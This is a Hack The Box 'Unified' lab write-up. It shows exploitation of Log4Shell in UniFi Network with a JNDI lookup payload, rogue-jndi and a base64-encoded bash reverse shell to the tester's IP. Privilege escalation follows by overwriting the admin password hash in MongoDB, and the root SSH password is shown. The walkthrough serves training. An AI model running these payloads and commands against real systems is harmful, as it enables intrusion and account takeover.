 ```yaml
---
date: 2024-11-15
categories:
    - Documentation
tags:
    - Hack The Box
    - CTF
    - MongoDB
---
```


# Unified Writeup
We spawn the target machine <TARGET_IP> and identify open ports using nmap :
   
```bash
nmap <TARGET_IP> -p-
```
Note : *-p-* to scan all TCP ports

We will get ports 80, 6789, 8080, and 8443

To view more about each port details, we can use *-sC* and *-sV*

```bash
nmap <TARGET_IP> -p 8443 -sC
```

This tells us that port 8443 is running Unifi Network

When we visit **https://<TARGET_IP>:8443**, we will see this login page
![alt text](image-6.png)

If we look for the vulnerabilities of this unifi version, we will find this [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228) related to Log4j2, called Log4Shell.

```java
logger.debug("This is a DEBUG message.");
logger.info("This is an INFO message.");
logger.warn("This is a WARN message.");
```

This vulnerability can be exploited to give a reverse shell. It works by exploiting improper input handling in log messages format.
Log4j allows message lookup through JNDI (Java Naming and Directory Interface). JNDI allows lookup from databases, services, network and directories, including LDAP (Lightweight Directory Access Protocol) to retrieve resources.

Malicious input could contain JNDI Lookup string such as :

```java
${jndi:ldap://malicious-server.com/exploit}
```
When this is logged by vulnerable log4j instance, it will trigger log4j JNDI feature to connect to malicious server (could be attacker's machine).

We will try to login to the page, and intercept our request using BurpSuite. We will try to connect to our IP (tun0 from HTB).

![alt text](image-7.png)

Here, I used tcpdump to analyze my network traffic. It is a command line version of Wireshark.
```
Tcpdump is a command line utility that allows you to capture and analyze network traffic going through your system. It is often used to help troubleshoot network issues, as well as a security tool.
```
Since LDAP runs in port 389, we will listen on port 389.
And indeed, there is a connection to port 389 to our machine. Hence, we know that it is vulnerable to Log4Shell.

I use rogue-jndi to deliver our payload. To setup :
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

A Rogue JNDI attack occurs when an attacker sets up a malicious server (e.g., an LDAP or RMI server) to respond to a JNDI lookup with malicious payloads. When the vulnerable application performs a lookup, it retrieves and executes the payload, enabling the attacker to execute arbitrary code, steal data, or compromise the system.

Here, we will send a reverse shell payload (base64 encoded to avoid encoding issues) :
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.61/1443 0>&1' | base64
```

After encrypting the payload, we will send it using rogue-jndi by :
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,<PAYLOAD_HERE>}|{base64,-d}|{bash,-i}" --hostname "10.10.14.61"
```
Change the IP accordingly to your tun0 IP, and port 1443 can be any port to listen to. We will set a listener using nc :
```bash
nc -lvnp 1443
```

Then, we will use the **ldap://10.10.14.61:1389/o=tomcat** provided by the rogue-jndi and send it to the page again.
![alt text](image-8.png)

Now, we can see our nc is connected to the shell!
Lets upgrade the shell by using :
```bash
script /dev/null -c bash
```
**script** creates a new pseudo terminal (PTY).
**/dev/null** is to ensure that the logs is not saved (PTY without logging). 
**-c bash** to start bash shell in the pseudo terminal.

![alt text](image-9.png)
Here is our user.txt!


## Privilege Escalation
To see the running processes, we can use the **ps** command

*The ps command in Linux is a powerful tool that allows you to view information about the processes running on your Linux system. It stands for “process status” and it's a command that you can use from the command line to get information about the currently running processes.*

When we use *ps aux*, we notice that target uses mongo database.
<details> 
  <summary><strong>Understanding ps aux</strong></summary>
  <p><strong>ps:</strong> Stands for "process status." It is a command used to display information about active processes in the system.</p>
  <p><strong>a:</strong> This option tells ps to show processes for all users, not just the current user. By default, without this flag, ps only shows processes running under the current user’s session.</p>
  <p><strong>u:</strong> This option tells ps to display user-oriented output. This includes the username of the process owner, CPU usage, memory usage, start time, etc.</p>
  <p><strong>x:</strong> This option tells ps to show processes that are not attached to a terminal. These could include background processes, system services, or daemons.</p>
</details>

```
ps aux | grep mongo
```

![alt text](image-10.png)
It shows that mongodb runs on the port 27117.

Unifi Network default database name is ace.
We will connect to the database and run some commands as shown.
![alt text](image-11.png)

We can enumerate the users, and find admin (the output is quite long so i grep it in here).
![alt text](image-14.png)

The password is in x_shadow and sha-512 (from the ```$6$``` prepended), and we cant crack it. So instead, we will just change it directly to our password.
![alt text](image-13.png)

Copy the password over, and update the database :
```java
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```
![alt text](image-15.png)

Now, if we try to login again, using ```adminstrator``` and our password (```eryz_pass``` in my case), we are authenticated!
![alt text](image-16.png)
And SSH login is enabled to root, using ```NotACrackablePassword4U2022```

Here is our flag :D
![alt text](image-17.png)
